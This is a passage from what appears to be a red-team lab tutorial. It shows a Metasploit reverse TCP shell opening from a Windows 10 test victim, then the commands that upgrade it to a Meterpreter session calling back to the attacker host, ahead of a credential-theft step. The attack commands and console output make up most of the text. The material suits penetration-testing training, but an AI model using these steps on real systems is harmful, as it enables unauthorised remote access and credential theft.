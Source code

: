 ```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.163.128:4444 
[*] Command shell session 4 opened (192.168.163.128:4444 -> 192.168.163.136:50841) at 2023-01-12 22:26:12 -0500


Shell Banner:
Microsoft Windows [Version 10.0.19045.2006]
-----
          

C:\Users\Red Team Victim\Downloads>
```

Now what we have here is a normal Windows Command Prompt - not a magical Meterpreter shell with all the additional Mimikatz juice we want to test out, so we need to make use of another Metasploit module to upgrade it.

First things first, hit CTRL+Z to *background* the session (if you hit CTRL+C, you'll be asked to ABORT it, don't do that).

Once you're back at the `msf` console prompt, run the following commands to upgrade the session to a Meterpreter shell:

```
// view the currently open sessions, will allow you to see the ID of the session we want to upgrade
sessions

// this is the post-exploitation module we need to use
use post/multi/manage/shell_to_meterpreter

// view the options you'll need to set, LPORT will already be configured which we won't change
options

// make sure your attacker machine is where the Meterpreter shell will call back to
set LHOST 192.168.163.128

// target your currently open session, found from running sessions earlier
set SESSION 4

// do the thingggg
exploit
```

When you run `exploit`, an additional handler will be started, and you should have an additional session opened with a Meterpreter shell

6. Get them Creds

Once your new session has come back you should see something like the following:

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                                      Connection
  --  ----  ----                     -----------                                                      ----------
  4         shell x86/windows        Shell Banner: Microsoft Windows [Version 10.0.19045.2006] -----  192.168.163.128:4444 -> 192.168.163.136:50841 (192.168.163.136)
  5         meterpreter x64/windows  DESKTOP-A97U9UJ\Red Team Victim @ DESKTOP-A97U9UJ                192.168.163.128:4433 -> 192.168.163.136:50843 (192.168.163.136)
```
